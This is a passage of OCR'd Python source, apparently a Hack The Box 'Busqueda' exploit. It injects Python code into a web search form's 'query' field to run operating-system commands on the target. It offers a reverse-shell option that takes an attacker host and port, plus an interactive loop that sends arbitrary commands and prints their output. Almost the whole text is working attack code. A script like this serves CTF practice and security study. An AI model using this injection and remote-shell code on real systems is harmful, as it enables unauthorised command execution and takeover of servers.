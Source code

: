 ```python
            'engine': 'Google',
            'query': f'myquery+\'),__import__(\'os\').system(\'{command}\')#'
        }

        print("\n[+] Sending a reverse shell")
        requests.post(url, headers=headers, data=data, timeout=2)
    
    except requests.Timeout:
        print("\n[+] Check your netcat listener! :)")
        sys.exit(0)

def shell(target):
    url = f'http://{target}/search'
    headers = {
        'Host':'searcher.htb',
        'Content-Type':'application/x-www-form-urlencoded'
    }

    while True:
        try:
            command = ""
            command = input("\n$ ")

            if command == "exit" or command == "quit":
                raise Exception("\n[!] Quitting!")

            elif command:
                data = {
                    'engine': 'Google',
                    'query': f'myquery+\'),__import__(\'os\').system(\'{command}\')#'
                }
                response = requests.post(url, headers=headers, data=data)
                
                if response.status_code == 200:
                    output = response.text.split('\n')
                    print('\n'.join(line for line in output if not line == output[-1]))
        
        except KeyboardInterrupt:
            print("\n[!] Keyboard interrumpt detected. Quitting!")
            sys.exit(1)

def set_arguments():
    parser = argparse.ArgumentParser(
        description="HTB Busqueda exploit"
    )
    parser.add_argument('-t', '--target', dest='target', required=True)
    parser.add_argument('-r', '--reverse-shell', dest='reverse', action='store_true')
    parser.add_argument('--lhost', dest='lhost', help="local address for reverse shell")
    parser.add_argument('--lport', dest='lport', default=4444, type=int, help="local port for reverse shell. Default: 4444")
    return parser.parse_args()

def main():
    try:
        args = set_arguments()
        if args.reverse:
            send_revshell(args.target, args.lhost, args.lport)
        else:
            shell(args.target)
    
    except Exception as e:
        print(e)
        sys.exit(1)
```